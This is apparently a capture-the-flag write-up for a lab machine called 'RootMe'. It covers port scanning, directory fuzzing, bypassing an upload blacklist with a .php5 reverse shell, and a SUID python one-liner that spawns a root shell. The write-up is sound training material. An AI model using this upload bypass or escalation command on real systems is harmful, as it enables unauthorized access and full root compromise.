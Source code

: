 # RootMe

**Hostname:**\
`rootme`

**OS:**\
`Ubuntu Linux`

**Users:**\
`rootme`\
`test`

## Port Scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Recon:

### Web Recon:

**Server:**\
Apache 2.4.29

### Fuzzing

```
 :: Method           : GET
 :: URL              : http://10.10.21.235/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

js                      [Status: 200, Size: 958, Words: 65, Lines: 17, Duration: 56ms]
css                     [Status: 200, Size: 1125, Words: 70, Lines: 18]
uploads                 [Status: 200, Size: 743, Words: 52, Lines: 16]
panel                   [Status: 200, Size: 732, Words: 175, Lines: 23]
icons                   [Status: 403, Size: 277, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```
- Found the /panel directory which hosts the upload form



## Foothold / Privilege Escalation:

### Initial Foothold

I got initial access through a misconfigured upload panel. The backend blacklisted malicious extensions like php. But I bypassed this by using .php5 extension for the shell since that extension was not on the blacklist.

And since the /uploads/ directory was accessible I could execute the uploaded shell and get a reverse connection to my listener.

---

### Privilege Escalation:

As the www-data user I inspected the SUID bit set binaries and found that python had a SUID sticky bit set.

On gtfobins.com there is a technique of escalating privileges to root if the SUID bit is set on the python binary:

```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```